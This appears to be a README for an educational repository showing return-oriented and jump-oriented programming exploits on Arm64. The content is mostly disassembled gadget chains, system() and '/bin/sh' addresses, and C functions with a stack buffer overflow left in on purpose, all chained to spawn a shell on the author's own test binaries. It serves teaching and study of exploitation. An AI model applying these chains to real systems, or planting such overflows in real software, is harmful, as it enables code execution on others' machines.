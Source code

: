 ## Return-oriented programming (ROP) and Jump-oriented-programming (JOP) examples on Arm64 platform
When the stack overflow occurs, the examples show how to use the ROP and JOP to start shell with the system api.
### Platform
Hardware: [Neoverse N1 System Development Platform (N1SDP)](https://community.arm.com/developer/tools-software/oss-platforms/w/docs/457/n1sdp-getting-started-guide) 
<br>
OS: Ubuntu 18.04.4 LTS 
<br>
GCC: gcc version 7.5.0 

### Structure
```bash 
├── Makefile
├── jop           # JOP exe       
├── jop.asm       # JOP assembly dump file 
├── jop.c         # JOP source code 
├── jop.data      # JOP input binary data 
├── jop.data.gen  # JOP input binary data generate script
├── rop           # ROP exe 
├── rop.asm       # ROP assembly dump file
├── rop.c         # ROP source code 
├── rop.data      # ROP input binary data  
└── rop.data.gen  # ROP input binary data generate script
```
### system() API address 
Add the below code to make sure the system() api linking into the binary: 
```C
void rop_symbol()
{
	system("/bin/ls"); 
}
```
```assembly
	system("/bin/ls"); // to make the system link to the binary
  400404:	90000280 	adrp	x0, 450000 <_nl_locale_subfreeres+0x1b8>
  400408:	9116e000 	add	x0, x0, #0x5b8
  40040c:	940019b7 	bl	406ae8 <__libc_system>
```
system() api address is **0x406ae8**
### Useful string "/bin/sh" address
According to the glibc do_system source code
```assembly
      /* Exec the shell.  */
      (void) __execve (SHELL_PATH, (char *const *) new_argv, __environ);
      _exit (127);

  406acc:	d0000240 	adrp	x0, 450000 <_nl_locale_subfreeres+0x1b8>
  406ad0:	b900067f 	str	wzr, [x19, #4]
  406ad4:	91344000 	add	x0, x0, #0xd10
  406ad8:	9400475e 	bl	418850 <__execve>
```
String "/bin/sh" can be found at address **0x450d10**
### ROP example
```C
void rop_bad_func()
{
	char data[16] = {0};
	unsigned long long u64 = 0;
	int fd = 0;
	fd = open("./rop.data",O_RDONLY);
	read(fd,&u64,512);
}
```

#### Useful gadgets
* gadget 1: main
```assembly
	rop_bad_func();
  40046c:	97ffffec 	bl	40041c <rop_bad_func>
	return 0;
  400470:	52800000 	mov	w0, #0x0                   	// #0
}
  400474:	a8c17bfd 	ldp	x29, x30, [sp], #16
  400478:	d65f03c0 	ret
  
```
Set X30 = next gadget address 

* gadget 2: __deregister_frame_info_bases
```assembly
  44f02c:	f9400bf3 	ldr	x19, [sp, #16]
  44f030:	a8c37bfd 	ldp	x29, x30, [sp], #48
  44f034:	d65f03c0 	ret
```
Set X19 from stack,the value is the address string "/bin/sh", and it will set to X0 at next gadget
<br>
Set X30 = next gadget address 
* gadget 3: __deregister_frame_info_bases
```assembly
  44f080:	aa1303e0 	mov	x0, x19
  44f084:	f9400bf3 	ldr	x19, [sp, #16]
  44f088:	a8c37bfd 	ldp	x29, x30, [sp], #48
  44f08c:	d65f03c0 	ret
 ```
Set X0 = X19
<br>
Set X30 = system() api address from stack
 #### Calling flow
 
 ```C
 rop_bad_func 
   -->(0x400474) main 
      --> (0x44f02c)__deregister_frame_info_bases 
         --> (0x44f080)__deregister_frame_info_bases 
	    --> system 
	       --> system 
	         --> ...
 ```
### JOP examples
```C
void jop_bad_func()
{
	jop_func_t func = NULL;
	char data[16] = {0};
	unsigned long long u64 = 0;
	int fd = 0;

	fd = open("./jop.data",O_RDONLY);
	func = jop_symbol;
	read(fd,&u64,512);
	func();
}
```
#### Useful gadgets
* gadget 1: jop_bad_func
```assembly
	func();
  400468:	f9401fa0 	ldr	x0, [x29, #56]
  40046c:	d63f0000 	blr	x0
```
Set X0 = gadget 2 address from stack 

* gadget 2: _dl_runtime_profile
```assembly
  441d84:	a94307a0 	ldp	x0, x1, [x29, #48]
  441d88:	6d4407a0 	ldp	d0, d1, [x29, #64]
  441d8c:	6d450fa2 	ldp	d2, d3, [x29, #80]
  441d90:	f94077be 	ldr	x30, [x29, #232]
  441d94:	910003bf 	mov	sp, x29
  441d98:	f94003bd 	ldr	x29, [x29]
  441d9c:	910403ff 	add	sp, sp, #0x100
  441da0:	d61f03c0 	br	x30
```
Set X0 = system() address 
<br>
Set X30 = gadget 3 address 

* gadget 3: _dl_runtime_profile
```assembly
  441cf4:	aa0003f0 	mov	x16, x0
  441cf8:	a94607a0 	ldp	x0, x1, [x29, #96]
  441cfc:	a9470fa2 	ldp	x2, x3, [x29, #112]
  441d00:	a94817a4 	ldp	x4, x5, [x29, #128]
  441d04:	a9491fa6 	ldp	x6, x7, [x29, #144]
  441d08:	6d4a07a0 	ldp	d0, d1, [x29, #160]
  441d0c:	6d4b0fa2 	ldp	d2, d3, [x29, #176]
  441d10:	6d4c17a4 	ldp	d4, d5, [x29, #192]
  441d14:	6d4d1fa6 	ldp	d6, d7, [x29, #208]
  441d18:	a9407bbd 	ldp	x29, x30, [x29]
  441d1c:	910403ff 	add	sp, sp, #0x100
  441d20:	d61f0200 	br	x16
```
Set X16 = X0 (system address)
<br>
Set X0 = "/bin/sh" string address
#### Calling flow
```C
jop_bad_func 
  --> (0x441d84)_dl_runtime_profile 
    --> (0x441cf4)_dl_runtime_profile 
       --> system
```
 
